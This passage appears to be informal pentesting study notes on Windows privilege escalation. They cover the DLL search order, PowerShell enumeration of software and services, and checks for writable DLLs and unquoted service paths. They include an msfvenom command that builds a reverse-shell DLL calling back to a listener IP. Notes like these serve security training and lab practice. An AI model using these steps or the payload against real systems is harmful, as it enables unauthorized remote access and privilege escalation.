 To mitigate DLL hijacking, Microsoft introduced **Safe DLL Search Mode** and **DLL Redirection**:

1. **The directory of the executable**
2. **The system directory** (`C:\Windows\System32\`)
3. **The 16-bit system directory** (`C:\Windows\System\`)
4. **The Windows directory** (`C:\Windows\`)
5. **The directories listed in `PATH` (environment variable)**
    - First, user directories in `PATH`
    - Then, system directories in `PATH`
6. **The current working directory (CWD)** ⬅️ **Moved to the last position!**

Finding this vulnerability is easy because u just have to find installed softwares and other running services or something else and u can google them to find what services vulnerable to dll hijacking


### Finding Potential DLL Hijacking Opportunities
```powershell
PS C:\Users\steve> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | 
select displayname

Get-Process | Select-Object ProcessName, Path

Get-CimInstance -ClassName Win32_Service | Select-Object Name, PathName, StartMode
```
- Also look in downloads, Program Files , App Data and other folders where such information can be found.
- Also check Writable DLL Locations 
- `icacls "C:\Program Files\VulnerableApp\*.dll"`
  
### Creating a Malicious DLL
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.240 LPORT=4444 -f dll -o reverse.dll
```

### Deploying a Malicious DLL
```powershell
icacls "C:\Program Files\VulnerableApp\*.dll"
```

---

## 🔗 Unquoted Service Paths

### Finding Services with Unquoted Paths
We can use this attack when we can write to the programs parent directory.


```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```
